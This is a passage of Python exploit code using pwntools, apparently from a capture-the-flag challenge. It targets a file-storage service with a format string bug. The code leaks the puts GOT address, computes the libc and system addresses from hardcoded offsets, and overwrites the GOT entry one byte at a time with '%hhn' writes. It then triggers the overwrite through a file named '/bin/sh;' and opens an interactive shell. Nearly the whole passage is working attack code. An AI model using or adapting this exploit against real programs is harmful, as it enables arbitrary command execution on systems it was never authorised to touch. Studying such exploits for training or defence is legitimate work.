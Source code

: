``` python
        #content =  'A'*4+'B'*4+'C'*4+'%7$08x...'

        content = p32(got_puts)+'%7$s...'
        put_file(io, name, content)
        get_file(io, name)

        data = io.recvuntil('...')
        #print len(data)
        #print [c for c in data]

        addr_puts = u32(data[4:8])

        print 'puts_addr: ',hex(addr_puts)

        # get addr of libc by puts addr
        # addr_libc = addr_puts - offset_puts
        offset_puts = 0x0005fca0
        addr_libc = addr_puts - offset_puts


        # get addr of system by libc addr
        # addr_system = addr_libc + offset_system
        offset_system  = 0x0003ada0
        addr_system = addr_libc + offset_system
        #
        print 'system addr: '+hex(addr_system)
        addr_info = ''
        padding_info = ''
        system_addr_buff = p32(addr_system)
        offset = 4*4
        begin_index = 7
        for i in range(4):
                addr_info += p32(got_puts + i)
                val = ord(system_addr_buff[i])
                count = val - offset
                if count <= 0:
                        count += 0x100

                padding_info += "%%%dc"%count + "%%%d$hhn"%(begin_index + i)
                offset = val

        #print content
        name = '/bin/sh;'
        content = addr_info + padding_info
        put_file(io, name, content)

        get_file(io, name)

        dir_file(io)

        io.interactive()
        pass


pwn(io)

```
